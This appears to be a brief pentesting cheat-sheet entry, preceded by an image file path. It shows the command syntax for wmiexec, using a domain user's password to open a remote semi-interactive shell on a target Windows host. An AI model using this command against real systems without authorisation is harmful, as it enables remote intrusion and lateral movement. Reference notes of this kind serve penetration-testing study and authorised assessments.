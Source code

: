**gain shell using wmiexec**
half shell

syntax:
```
wmiexec domain.com/user:password@<target host>
```

